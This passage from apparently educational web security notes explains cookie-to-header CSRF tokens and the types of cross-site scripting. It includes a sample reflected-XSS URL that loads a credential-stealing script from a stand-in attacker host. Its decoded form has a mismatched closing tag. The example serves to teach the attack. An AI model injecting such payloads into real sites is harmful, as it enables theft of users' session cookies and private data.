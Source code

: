 #### Cookie-to-header token

On login, the web application sets a cookie containing a random token that ramains the same for the whole user session.

```HTTP
Set-Cookie: Csrf-token=i8XNjC4b8KVok4uw5RftR38Wgp2BFwql; expires=Thu, 23-Jul-2015 10:25:33 GMT; Max-Age=31449600; Path=/
```

JavaScipt on the client side reads its value and copies it into a custom HTTP Header sent with each transactional request.

```HTTP
X-Csrf-Token: i8XNjC4b8KVok4uw5RftR38Wgp2BFwql
```

The server validates presence and integrity of the token.

This method relies on same-origin policy which only allows JavaScript within same origin to be able to read the cookie's value, so that attackers are not able to read the token and forge a request.

The CSRF token cookie must not have `httpOnly` flag, because _HttpOnly_ cookie cannot be accessed by client-side APIs.

#### Others

1. Checking HTTP Headers: `X-Requested-With`, `Referer`, `Origin`, this is insecure when http headers can be manipulated.

### [Cross-site scripting (XSS)](https://en.wikipedia.org/wiki/Cross-site_scripting)

Cross-site scripting attacks use know vulnerabilities in web-based applications to inject malicious script to pages hosted by server, when pages with malicious contents delivered to clients, attackers can gain access to users' sensitive information including session cookies.

#### Types

**Non-persistent (Reflected) XSS**, An reflected attack is typically delivered via email or neutral website. Users may be tricked into clicking innocent-looking links with malicious script, which gets executed and stoles users' private information or submit malicious content to server.

DOM-based XSS is a type of non-persistent XSS attack that injected malacious script manipulates DOM directly instead of communicating with server to attack certain users.

A malicious url:

```html
http://bobssite.org?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E 
```

Actual content:

```html
http://bobssite.org?q=puppies<script%20src="http://mallorysevilsite.com/authstealer.js"></iframe>
```
